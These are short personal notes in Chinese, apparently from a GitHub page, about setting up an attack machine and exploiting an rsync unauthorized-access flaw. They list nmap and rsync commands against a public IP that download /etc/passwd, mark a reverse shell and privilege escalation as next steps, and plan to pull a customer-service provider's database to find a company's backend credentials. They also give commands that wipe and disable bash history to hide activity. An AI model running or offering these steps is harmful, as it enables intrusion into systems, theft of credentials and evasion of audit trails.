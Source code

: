## 目的

自己创建一个机器，进行攻击

https://zhuanlan.zhihu.com/p/389200456

linux 配置海外 代理

https://xie.infoq.cn/article/7d47c548c916e8ceef55ee596

安装 trojan 和 proxychains 

复现：“rsync未授权访问漏洞”
地址： https://github.com/vulhub/vulhub/

环境搭建： https://github.com/vulhub/vulhub/

复现： https://blog.csdn.net/weixin_44110913/article/details/109545122

nmap -p 873  175.178.234.145
rsync   175.178.234.145::
rsync rsync://175.178.234.145/src
<!--  下载 -->
rsync -av rsync://175.178.234.145/src/etc/passwd ./
<!--  提权、反弹shell -->

linux 禁止ping

```text
1. 临时允许PING操作的命令为：
#echo 0 >/proc/sys/net/ipv4/icmp_echo_ignore_all
2. 永久允许PING配置方法
/etc/sysctl.conf中增加一行
net.ipv4.icmp_echo_ignore_all=0
sysctl -p
```

查看一下linux服务器经常登录的ip地址
在查询一下美洽服务商 的数据库信息，拉去下来，搜索到对应的 企业id的后台 认证信息

### 清楚 历史记录

先将 history 信息导出到 history_last.md

ln -sf /dev/null ~/.bash_history && history -c && exit
echo "unset HISTFILE" >> /etc/profile

### 显示最近用户登录信息

last -10

将这些信息导出到  last_user.md
